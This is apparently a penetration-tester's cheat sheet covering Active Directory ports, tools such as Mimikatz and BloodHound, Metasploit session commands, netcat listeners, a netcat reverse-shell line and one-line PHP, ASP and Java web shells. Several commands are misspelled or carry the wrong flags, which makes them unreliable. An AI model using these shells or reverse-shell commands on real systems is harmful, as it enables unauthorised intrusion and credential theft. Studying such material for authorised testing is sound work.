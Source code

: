SMB - 445
Kerberos - 88
RDP - 3389
LDAP - 389 636

Tools
Mimikatz - credential dumping
winPeas - local privesc
Bloodhound - collect AD data and find attack paths
PowerSploit - ps1 scripts


Exploit Databases
exploit-db.com
cve.mitre.org
securityfocus.com
Google Dork: "CVE-20XX-XXXX" site:github.com

Reverse Shell Generator
revshells.com

SearchSplot
       searchsploit <query>         
       searchspoit -m <exploit_id>
  
Fix Kali Issues
       github.com/Dewalt-arch/pimpmykali
  

Metasploit - exploitation framework. Has everything.
  msfconsole
  setg - set global variables
  unsetg
  search
  info
  use
  set RHOSTS <IP? - sets local variables
  unset
  sessions - lists active sessions
  session -i <session id> - connects to a session
  sessopn -u 1 - upgrade a session
  sessions -c cmd - execute comands in all sessions
  sessions -i 10-20 -c <session id> - execute commands in specific sessions
  
MetaSploit listener
  use multi/handler    : metasploit listener
  set LHOST
  run   -starts the listener
  
Python Listeners
  Python 2 simple web server
    python -m SimpleHTTPServer 8080
  Python 3 simple web server
    python -m http.server 1338
  
TCPdump
  tcpdump -t eth0 icmp  :listen for pings on specific interface
  tcpdump -i any icmp    :listen for pings on every interface
  
  
Listeners
  nc -lvnp <port>  : listens for connections on a port
        -l  start listener
        -v  run verbose
        -n  no DNS resolution
        -p  port
  nc <ip> <port> -e /bin/sh

Webshells
github.com/BlackArch/webshells
<?php echo system($_GET['cmd']);?>   : PHP one liner web shell  
<% eval request("cmd")%>  : ASP one liner web shell
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>  : java web shell
                  
                  
                  
                  
                  
                  
                  
                  
                  
